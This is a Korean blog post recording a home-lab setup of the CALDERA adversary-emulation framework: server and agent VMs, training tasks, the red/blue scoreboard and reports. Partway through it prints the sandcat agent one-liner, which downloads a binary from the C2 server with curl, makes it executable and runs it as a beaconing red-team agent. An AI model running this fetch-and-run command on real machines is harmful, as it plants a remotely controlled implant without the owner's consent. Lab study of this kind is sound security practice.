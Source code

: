 ```yaml
---
layout: post
title:  "3.CALDERA 이해하기"
date:   2021-01-12
categories: jekyll update
---
```


## CALDERA 설치 중 알게 된 사실 정리

* 결국은 여러대의 VM이 필요함
* sandcat은 go가 설치되어 있어야 함
* 전체적인 구조

본론부터 말하자면 칼데라는 사이버 킬체인을 구현할 수 있는 시뮬레이터다.
모의해킹을 도와주는 프레임워크라고 말 할 수있다.
그래서 이때까지 구현 한 것은 모의해킹을 전반적으로 관리해 주는 서버인 것이다.
실제로 옛날 문서를 구글링 해 본 결과, 칼데라에는 서버와 에이전트가 따로 존재했다.
즉, 서버가 구축되어 있는 리눅스와 에이전트를 심을 클라이언트 운영체제가 있어야 한다는 것이다.
윈도우나 리눅스, 맥같은 운영체제를 선택할 수 있는 항목이 있는 이유가 여기 있었다.
서버는 오직 리눅스에서, 클라이언트는 각종 운영체제를 선택 할 수 있다.

나는 CentOS를 하나 더 구축해서 에이전트를 투입하고 사이버 공격을 시도하는 실험을 진행했다.
![시작](/img/시작.PNG)
실험을 할 CentOs Desktop

![구조](/img/구조.png)
현재 VM 구조

여기서 Agent를 침투시키는 명령어가 있는데,
``server="http://172.30.1.37:8888";curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > sandcat.go;chmod +x sandcat.go;./sandcat.go -server $server -group red -v``
이 코드를 복사 해서 Desktop Interface의 Putty에 붙여넣어 주었다.
그럼 해당 경로에 `sandcat.go` 라는 go 파일이 생기는데, 여기서 알 수 있듯 **반드시** 해당 컴퓨터에는 go 언어가 깔려 있어야 한다. 여기서 go의 버전은 1.11 이상이여야 한다. 즉, 칼데라 서버에서도 go가 깔려 있어야 하고 침투시킬 PC에서도 go가 깔려 있어야 한다.

![agnet](/img/ㅋㅋㅋ.PNG)
그렇게 되면 저번과 다르게 이렇게 비콘을 통해 지속적으로 신호를 주고 받는다!
또한 2번째 텝에
 있었던 능력을 실제로 적용해 진행하는 모습을 보인다.

![1](/img/트레이닝.PNG)
그럼 이렇게 첫 번째 트레이닝을 통과 할 수 있다.
구글링을 해 본 결과 모든 트레이닝을 통과하면 인증서를 발급 받을 수 있다고 한다.
그런데 당장 필요한 기능은 아닌 것 같으니 넘어가자.

![2](/img/뭔가되더라.PNG)
게임보드에 가게 되면 이렇게 red와 blue의 현재 상황을 볼 수 있다.
당연히 blue팀에 대해서는 아무 것도 하지 않았으므로 0점이다.

![3](/img/스크롤.PNG)
모든 작전이 끝나고 나면 이렇게 리포트를 다운받을 수 있는데, 이것 역시 처음과는 다르게 스크롤의 수가 아주 긴 것을 볼 수 있다. 여기서는 시행한 모든 공격에 대한 보고가 자세하게 적혀있다.

### 아직 해결하지 못한 문제들
![4](/img/에러.PNG)
서버의 로그 인데, 몇 시에 난 건지는 적혀 있지만 저 당시에 뭘 하고 있었는지는 정확히 알 수가 없다. 그래서 추후에 코드리딩을 통해 문제를 해결 할 것이다.
